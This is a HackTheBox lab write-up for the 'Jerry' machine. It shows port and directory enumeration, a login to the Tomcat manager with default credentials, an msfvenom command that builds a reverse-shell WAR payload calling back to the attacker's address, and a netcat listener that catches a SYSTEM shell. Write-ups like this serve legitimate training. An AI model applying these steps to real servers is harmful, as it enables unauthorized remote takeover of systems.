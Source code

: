 ```yaml
---
layout: post
title:  "HackTheBox - Jerry"
---
```

HackTheBox is a great platform for hackers/penetration testers to practice and learn with. Their network consists of 2 machine pools - Active and Retired. Active machines have no writeups and grant points to your profile and allow you to rank up and climb the leaderboard. Retired machines have many writeups and are great for learning and completing for fun, but don't give points towards a higher rank. "Jerry" was recently retired on 11/16/18.

![JerryHTB](/assets/JerryInfo.png)

![JerryDate](/assets/JerryDate.png)

Jerry was the first active machine I owned 3 weeks ago, it's one of the easiest the platform has seen yet, the 2nd easiest I've personally done on HTB. Nevertheless, it was still quite fun and I still learned from it. Jerry is running an Apache Tomcat webserver. Upon further enumeration you find the default administrator credentials are still in use, and from there you can upload a .WAR file to grant yourself a reverse shell that is ran in the context of the web server administrator giving you full SYSTEM access. Sadly, no privesc is needed for this box, but the exploit is actually realistic due to misconfigurations like this happening quite often in the real world.

First, we start by enumerating the open ports and services running on the machine
```
root@collector:~/Documents/htb/boxes/jerry# cat jerry.nmap
# Nmap 7.70 scan initiated Sun Nov 18 13:02:24 2018 as: nmap -sS -sV -T4 -oA jerry -p- -Pn 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.069s latency).
Not shown: 65534 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Nov 18 13:04:02 2018 -- 1 IP address (1 host up) scanned in 98.46 seconds
```

nmap shows port 8080 is open serving HTTP and the service version fingerprint shows us it's running Apache Tomcat. When we navigate to 10.10.10.95:8080 we get a version number (Apache Tomcat 7.0.88), but nothing much other than that:

![TomcatInfo](/assets/TomcatInfo.png)

For further enumeration, lets run Gobuster to see if we can find any other directories on the web server:
```
root@collector:~/Documents/htb/boxes/jerry# gobuster -u http://10.10.10.95:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -o jerry.go -t 50

=====================================================
Gobuster v2.0.0              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.95:8080/
[+] Threads      : 50
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2018/11/18 13:31:44 Starting gobuster
=====================================================
/docs (Status: 302)
/examples (Status: 302)
/manager (Status: 302)
/cmd (Status: 302)
/reverse (Status: 302)
/con (Status: 200)
=====================================================
2018/11/18 13:33:49 Finished
=====================================================
```

/docs and /examples don't show us much, but we find the server manager login page at /manager. Of course upon accessing this page we're prompted for credentials, so I always begin by searching for default credentials. As I stated earlier this is a common misconfiguration you see often in the real world, you don't always need to be a 1337 hacker to gain authorized access to a system. After some Googling I come across [this GitHub link](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown) showing us a good list of default credentials for Apache Tomcat:

![DefaultCreds](/assets/DefaultCreds.png)

username:tomcat password:s3cret are the creds that get us in the manager console:

![TomcatManager](/assets/TomcatManager.png)

admin:admin works as well, but it has limited access, and no access to the file manager for file upload. We can see more server information once we've logged in:

![TomcatServerInfo](/assets/TomcatServerInfo.png)

Quickly I find we have access to file upload, this is how we're going to get our reverse shell. I got stuck here a bit trying to find what file type the server will run, turns out it will accept anything but only run .WAR files. So we generate our reverse TCP .WAR payload with msfvenom:
```
root@collector:~/Documents/htb/boxes/jerry# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=4444 -f war > revshell.war
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of war file: 52424 bytes)
```

msfvenom = Metasploit's payload generator. This is currently legal to use on the OSCP exam.
windows/shell_reverse_tcp = the reverse shell exploit we will be using.
LHOST and LPORT = my attacking machine's IP address and port I will be listening on. This is planted into the payload to send the shell to me.

Next, lets set up our netcat listener to listen to the LPORT we set. You can also do this with Metasploit's multi handler, but for now I am personally staying away from certain parts of Metasploit as much as I can due to having limited usage in the OSCP exam:
```
root@collector:~/Documents/htb/boxes/jerry# nc -lvnp 4444
listening on [any] 4444 ...)
```

I wasn't aware of this at first, but since we've generated a .WAR payload we will need to find the .jsp page it will be served to. We can do this by reading it's contents:
```
root@collector:~/Documents/htb/boxes/jerry# jar -ft revshell.war
META-INF/
META-INF/MANIFEST.MF
WEB-INF/
WEB-INF/web.xml
aaoyxiaved.jsp
```

"aaoyxiaved.jsp" is what we're looking for. So once we've uploaded the payload via the file upload discovered earlier, we can navigate to http://10.10.10.95:8080/revshell/aaoyxiaved.jsp and catch our reverse shell with our netcat listener:

![JerryOwned](/assets/JerryOwned.png)

Since this is misconfigured to run in the context of the administrator, we're automatically NT AUTHORITY/SYSTEM on the box. From here I grabbed the 2 for 1 file and got points for my efforts.

Hopefully you enjoyed this writeup and learned something. I try to go into detail to help out beginners, so if you have any questions please feel free to DM me on any of my social media.
